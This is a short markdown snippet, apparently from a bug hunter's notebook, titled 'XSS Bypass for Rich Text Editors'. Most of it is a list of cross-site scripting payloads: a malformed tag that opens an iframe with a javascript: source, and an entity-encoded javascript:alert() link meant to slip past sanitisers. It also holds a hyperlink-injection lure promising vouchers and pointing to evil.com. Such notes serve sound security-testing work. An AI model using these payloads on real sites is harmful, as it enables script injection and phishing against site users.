 ```yaml
---
tags:
  - web_hunting
---
```

- **XSS Bypass for Rich Text Editors**
    
    ```js
    First, try all the built-in functions like bold, links, and embedded images.
    
    <</p>iframe src=javascript:alert()//
    <a href="aaa:bbb">x</a>
    <a href="j%26Tab%3bavascript%26colon%3ba%26Tab%3blert()">x</a>
    
    [Click on me to claim 100$ vouchers](<https://evil.com>) -> Hyperlink Injection
    ```